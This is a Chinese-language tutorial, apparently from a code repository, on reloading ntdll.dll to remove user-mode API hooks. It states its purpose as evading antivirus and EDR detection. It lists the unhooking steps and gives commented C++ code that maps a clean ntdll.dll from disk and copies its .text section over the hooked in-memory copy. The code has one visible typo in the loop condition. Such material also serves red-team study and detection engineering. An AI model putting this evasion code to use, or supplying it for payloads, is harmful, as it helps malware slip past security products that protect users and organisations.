

# Reload NTDLL

​	重新加载NTDLL是bypass hook的一种经典手段，用于解决用户模式挂钩，由于大多数杀软都会通过hook并注入shellcode的方式监测我们的进程，所以我们可以重新加载一个NTDLL文件并使用其中的函数来绕过AV的Userland的挂钩，从而实现免杀的目的。

​	手法：通过从磁盘读取 ntdll.dll 的 .text 部分并将其放在内存中映射的ntdll.dll的 .text 部分的顶部，可以完全取消挂钩内存中加载的任何给定 DLL。这可能有助于规避一些依赖于**用户空间** API 挂钩的 EDR 解决方案。

### 步骤

取消挂钩DLL的过程如下：

1. 将 ntdll.dll 的新副本从磁盘映射到进程内存

2. 查找挂钩ntdll.dll的 .text 部分的虚拟地址

3. 查找新映射ntdll.dll的 .text 部分的虚拟地址

4. 获取挂钩模块的 .text 部分的原始内存保护

5. 将 .text 部分从新映射的 dll 复制到原始（挂钩）ntdll.dll的虚拟地址（在步骤 3 中找到） - 这是取消挂钩的实质，因为所有挂钩的字节都会被磁盘中的新字节覆盖
6. 将原始内存保护应用于原始ntdll.dll中新解除挂钩的 .text 部分




### 代码详解

```c++
void unHook(){
    // 获取当前进程的句柄
    HANDLE process = GetCurrentProcess();
    // 定义并初始化 MODULEINFO 结构体
    MODULEINFO minfo = {};
  
    // 获取 内存中挂钩ntdll.dll 模块的句柄
    HMODULE ntdllModule = GetModuleHandleA("ntdll.dll");
    // 获取 内存中挂钩ntdll.dll 模块的信息
    GetModuleInformation(process, ntdllModule, &minfo, sizeof(minfo));
    // 获取 内存中挂钩ntdll.dll 模块的基址
    LPVOID ntdllBase = (LPVOID)minfo.lpBaseOfDll;
  
    // 打开 磁盘中的ntdll.dll 文件
    HANDLE ntdllFile = CreateFileA("c:\\windows\\system32\\ntdll.dll", GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, 0, NULL);
    // 创建 新的ntdll.dll 文件的映射
    HANDLE ntdllMapping = CreateFileMapping(ntdllFile, NULL, PAGE_READONLY | SEC_IMAGE, 0, 0, NULL);
    // 映射 新的ntdll.dll 文件到内存
    LPVOID ntdllMappingAddress = MapViewOfFile(ntdllMapping, FILE_MAP_READ, 0, 0, 0);

    // 获取 内存中挂钩ntdll.dll 的 DOS 头
    PIMAGE_DOS_HEADER hookedDosHeader = (PIMAGE_DOS_HEADER)ntdllBase;
    // 获取 内存中挂钩ntdll.dll 的 NT 头
    PIMAGE_NT_HEADERS hookedNtHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)ntdllBase + hookedDosHeader->e_lfanew);

    // 遍历 内存中挂钩ntdll.dll 的各个节
    for (WORD i = 0; i < hookedNtHeaderhookedNtHeader->FileHeader.NumberOfSections; i++) {
        // 获取当前节的头部
        PIMAGE_SECTION_HEADER hookedSectionHeader = (PIMAGE_SECTION_HEADER)((DWORD_PTR)IMAGE_FIRST_SECTION(hookedNtHeader) + ((DWORD_PTR)IMAGE_SIZEOF_SECTION_HEADER * i));

        // 如果当前节是 .text 节
        if (!strcmp((char*)hookedSectionHeader->Name, (char*)".text")) {
            // 保存当前节的保护属性
            DWORD oldProtection = 0;
            // 修改当前节的保护属性为可执行可读可写
            bool isProtected = VirtualProtect((LPVOID)((DWORD_PTR)ntdllBase + (DWORD_PTR)hookedSectionHeader->VirtualAddress), hookedSectionHeader->Misc.VirtualSize, PAGE_EXECUTE_READWRITE, &oldProtection);
            // 拷贝新的ntdll.dll映射的节到内存中挂钩ntdll.dll对应的地址
            memcpy((LPVOID)((DWORD_PTR)ntdllBase + (DWORD_PTR)hookedSectionHeader->VirtualAddress), (LPVOID)((DWORD_PTR)ntdllMappingAddress + (DWORD_PTR)hookedSectionHeader->VirtualAddress), hookedSectionHeader->Misc.VirtualSize);
            // 恢复当前节的保护属性
            isProtected = VirtualProtect((LPVOID)((DWORD_PTR)ntdllBase + (DWORD_PTR)hookedSectionHeader->VirtualAddress), hookedSectionHeader->Misc.VirtualSize, oldProtection, &oldProtection);
        }
    }

    // 关闭当前进程的句柄
    CloseHandle(process);
    // 关闭 新的ntdll.dll 文件的句柄
    CloseHandle(ntdllFile);
    // 关闭 新的ntdll.dll 文件的映射
    CloseHandle(ntdllMapping);
    // 释放 内存中挂钩ntdll.dll 模块
    FreeLibrary(ntdllModule);
}

```

